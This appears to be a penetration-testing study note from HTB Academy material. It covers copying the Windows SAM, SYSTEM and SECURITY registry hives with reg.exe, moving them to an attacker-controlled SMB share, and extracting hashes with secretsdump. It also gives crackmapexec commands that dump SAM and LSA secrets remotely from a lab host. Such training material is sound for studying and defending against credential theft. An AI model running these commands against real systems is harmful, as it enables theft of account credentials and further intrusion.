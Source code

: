 # Copying SAM Registry Hives
There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/ffec8edc-1f07-4ad2-b0d6-ff610b1a97fb)
We can create backups of these hives using the reg.exe utility.

We have to launch cmd as admin in order to copy hives:
Commands to copy:
```bash
reg.exe save hklm\sam C:\sam.save
```
```bash
reg.exe save hklm\system C:\system.save
```
```bash
reg.exe save hklm\security C:\security.save
```
Technically we will only need hklm\sam & hklm\system, but hklm\security can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.

## Tarnsfer file
We can create ftp, http or smb server to transfer these files to our linux machine.

**Transfering to smb share from windows:**
`move sam.save \\IP\sharename` same for system.save and security.save

## Dumping hashes from linxu using hives:

We will use secretsdump from `/usr/share/doc/python3-impacket/examples`:
```bash
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
Fromat: `Dumping local SAM hashes (uid:rid:lmhash:nthash)`


# Remote Dumping & LSA Secrets Considerations
With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network
```bash
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --lsa
```
## Dumping SAM Remotely
```bash
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --sam
```
